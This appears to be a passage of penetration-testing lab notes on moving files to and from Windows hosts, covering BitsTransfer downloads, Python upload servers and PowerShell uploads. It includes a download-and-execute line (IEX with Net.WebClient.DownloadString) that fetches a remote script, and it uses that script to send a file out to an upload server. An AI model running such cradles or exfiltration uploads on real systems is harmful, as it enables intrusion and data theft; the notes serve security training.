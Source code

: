 ### BitsTransfer w/ Authentication
```powershell
Import-Module BitsTransfer
Start-BitsTransfer -Source [Target_File_URL] -Destination [Output_File] -Description "[Backup]" -DisplayName "[Backup]" -Credential [Username\Domain]
```



# Uploading from Windows

## Web Uploads
- PowerShell doesn't have a built-in function for upload ops.  Can use `Invoke-WebRequest` or `Invoke-RestMethod`.  Will need a web server that accepts uploads.

### Installing a Configured WebServer with Upload (on Linux)
```bash
pip3 install uploadserver
	Collecting upload server
		Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
	Installing collected packages: uploadserver
	Successfully installed uploadserver-2.0.1


python3 -m uploadserver
	File upload available at /upload
	Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### OR Install and Configure updog
```bash
pip3 install updog

updog -d [Root Directory] -p [Port]
```

### PowerShell Script to Upload a File to Python Upload Server
```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/refs/heads/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri [Target_Upload_URL] -File [Input_File]

	[+] File Uploaded: [Input_File]
	[+] FileHash: [File_Hash]
```
	- Uses the PowerShell script `PSUpload.ps1` (which uses Invoke-RestMethod) to perform the upload ops

